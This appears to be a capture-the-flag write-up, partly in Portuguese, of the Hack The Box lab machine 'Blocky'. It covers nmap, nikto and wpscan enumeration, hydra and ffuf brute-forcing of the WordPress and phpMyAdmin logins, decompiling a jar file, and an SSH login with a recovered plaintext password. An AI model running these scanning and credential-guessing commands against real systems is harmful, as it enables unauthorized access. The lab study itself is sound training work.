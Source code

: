 Blocky
========================

## Enumeration

    sudo nmap_enum 10.10.10.37 | tee nmap_output.txt

![qownnotes-media-MVzRqN](../../../media/qownnotes-media-MVzRqN.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.37 | tee nmap_udp_output.txt

![qownnotes-media-njjIzT](../../../media/qownnotes-media-njjIzT.png)

    sudo nmap -p- -Pn -T5 -n 10.10.10.37 | tee nmap_fullportstcp_output.txt
    
![qownnotes-media-HmsUZC](../../../media/qownnotes-media-HmsUZC.png)

    sudo nmap -sS --script vuln -n -T5 -Pn 10.10.10.37 -p 21,22,80,25565 | tee nmap_vulns.txt
    
![qownnotes-media-AGngxA](../../../media/qownnotes-media-AGngxA.png)

    nikto -host http://10.10.10.37 -T x 6 | tee nikto_output.txt

 ![qownnotes-media-VKbaTL](../../../media/qownnotes-media-VKbaTL.png)


    ftp -a -A 10.10.10.37

![qownnotes-media-fjTZWj](../../../media/qownnotes-media-fjTZWj.png)

    wpscan --url http://blocky.htb --no-update --disable-tls-checks -e vp,vt,tt,cb,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive -f cli-no-color 2>&1 | tee tcp_port_protocol_wpscan.txt

![qownnotes-media-tASGkj](../../../media/qownnotes-media-tASGkj.png)


    searchsploit twentyseventeen
    searchsploit wordpress 4.8
    
    
    ffuf -w /usr/share/wordlists/rockyou.txt -u 'http://blocky.htb/wp-login.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://blocky.htb' -H 'Connection: keep-alive' -H 'Referer: http://blocky.htb/wp-login.php' -H 'Cookie: wordpress_test_cookie=WP+Cookie+check' -H 'Upgrade-Insecure-Requests: 1' -d 'log=notch&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblocky.htb%2Fwp-admin%2F&testcookie=1' -fs 3382
    
    hydra -l notch -P /usr/share/wordlists/rockyou.txt blocky.htb http-post-form "/wp-login.php:log=notch&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblocky.htb%2Fwp-admin%2F&testcookie=1:ERROR"

![qownnotes-media-upGfEG](../../../media/qownnotes-media-upGfEG.png)

 
    cewl http://blocky.htb -m 3 --with-numbers -w cewl.txt
    hydra -l notch -P cewl.txt 10.10.10.37 http-post-form "/wp-login.php:log=notch&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblocky.htb%2Fwp-admin%2F&testcookie=1:ERROR"
    
    export HYDRA_PROXY_HTTP=http://127.0.0.1:8080
    hydra -l notch -P cewl.txt blocky.htb http-post-form "/wp-login.php:log=notch&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblocky.htb%2Fwp-admin%2F&testcookie=1:ERROR"

![qownnotes-media-lZiQWE](../../../media/qownnotes-media-lZiQWE.png)

    ffuf -u http://blocky.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e ".txt,.html,.php" -x http://127.0.0.1:8080 -fs 52227
 
![qownnotes-media-yYNWHB](../../../media/qownnotes-media-yYNWHB.png)

![qownnotes-media-kUnOCz](../../../media/qownnotes-media-kUnOCz.png)

    ffuf -w /usr/share/wordlists/rockyou.txt -u 'http://blocky.htb/phpmyadmin/index.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://blocky.htb' -H 'Connection: keep-alive' -H 'Referer: http://blocky.htb/phpmyadmin/' -H 'Cookie: pmaCookieVer=4; phpMyAdmin=sbu4183iulg3d7g62jqrkva9hug5rhio; pma_lang=en; pma_collation_connection=utf8_unicode_ci; wordpress_test_cookie=WP+Cookie+check' -H 'Upgrade-Insecure-Requests: 1' -d 'pma_username=notch&pma_password=FUZZ&server=1&target=index.php&lang=en&collation_connection=utf8_unicode_ci&token=d0d04837ccc981bbb0ac831c5c04eaca' -x http://127.0.0.1:8080 -fs 10012,10016

    ffuf -w cewl.txt -u 'http://blocky.htb/phpmyadmin/index.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://blocky.htb' -H 'Connection: keep-alive' -H 'Referer: http://blocky.htb/phpmyadmin/' -H 'Cookie: pmaCookieVer=4; phpMyAdmin=sbu4183iulg3d7g62jqrkva9hug5rhio; pma_lang=en; pma_collation_connection=utf8_unicode_ci; wordpress_test_cookie=WP+Cookie+check' -H 'Upgrade-Insecure-Requests: 1' -d 'pma_username=notch&pma_password=FUZZ&server=1&target=index.php&lang=en&collation_connection=utf8_unicode_ci&token=d0d04837ccc981bbb0ac831c5c04eaca' -x http://127.0.0.1:8080 -fs 10012,10016

![qownnotes-media-MPFgKB](../../../media/qownnotes-media-MPFgKB.png)

    hydra -l notch -P /usr/share/wordlists/rockyou.txt blocky.htb http-post-form "/phpmyadmin/index.php:pma_username=notch&pma_password=^PASS^&server=1&target=index.php&lang=en&collation_connection=utf8_unicode_ci&token=56036ad091bc85859dcd957a407743bc:Access denied for user"
    
    hydra -l notch -P cewl.txt blocky.htb http-post-form "/phpmyadmin/index.php:pma_username=notch&pma_password=^PASS^&server=1&target=index.php&lang=en&collation_connection=utf8_unicode_ci&token=56036ad091bc85859dcd957a407743bc:Access denied for user"
    

## Exploitation
    
![qownnotes-media-gKpypE](../../../media/qownnotes-media-gKpypE.png)



Daqui baixamos o arquivo BlockyCore.jar e decompilamos com jd-gui

    sudo apt update
    sudo apt install jd-gui
    jd-gui BlockyCore.jar

![qownnotes-media-bROezZ](../../../media/qownnotes-media-bROezZ.png)

Como já tínhamos enumerado o usuário notch, tentamos com a seguinte credencial via SSH:

notch
8YsqfCTnvxAUeduzjNSXe22

    ssh notch@blocky.htb
    
![qownnotes-media-kmZFIU](../../../media/qownnotes-media-kmZFIU.png)

## Privilege Escalation

![qownnotes-media-BNTfDi](../../../media/qownnotes-media-BNTfDi.png)
